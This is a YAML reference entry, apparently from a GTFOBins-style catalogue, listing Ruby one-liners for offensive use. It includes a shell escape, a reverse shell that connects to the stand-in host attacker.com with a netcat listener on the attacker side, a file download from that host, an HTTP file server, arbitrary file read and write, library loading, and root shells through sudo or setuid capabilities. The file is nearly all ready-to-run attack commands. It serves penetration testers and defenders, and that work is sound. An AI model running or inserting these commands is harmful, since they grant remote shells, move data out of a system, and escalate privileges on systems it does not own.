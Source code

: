 ```yaml
---
functions:
  execute-interactive:
    - code: ruby -e 'exec "/bin/sh"'
  reverse-shell-interactive:
    - description: Run `nc -l -p 12345` on the attacker box to receive the shell.
      code: |
        export RHOST=attacker.com
        export RPORT=12345
        ruby -rsocket -e 'exit if fork;c=TCPSocket.new(ENV["RHOST"],ENV["RPORT"]);while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
  upload:
    - description: Serve files in the local folder running an HTTP server. This requires version 1.9.2 or later.
      code: |
        export LPORT=8888
        ruby -run -e httpd . -p $LPORT
  download:
    - description: Fetch a remote file via HTTP GET request.
      code: |
        export RHOST=attacker.com
        export RPORT=12345
        export RFILE=/file_to_get
        export LFILE=file_to_save
        ruby -e 'require "net/http"; Net::HTTP.start(ENV["RHOST"], ENV["RPORT"]) { |http| r = http.get(ENV["RFILE"]); open(ENV["LFILE"], "wb") { |file| file.write(r.body) } }'
  file-write:
    - code: ruby -e 'File.open("file_to_write", "w+") { |f| f.write("DATA") }'
  file-read:
    - code: ruby -e 'puts File.read("file_to_read")'
  load-library:
    - code: ruby -e 'require "fiddle"; Fiddle.dlopen("lib.so")'
  sudo-enabled:
    - code: sudo ruby -e 'exec "/bin/sh"'
  capabilities-enabled:
    - code: ./ruby -e 'Process::Sys.setuid(0); exec "/bin/sh"'
---
```

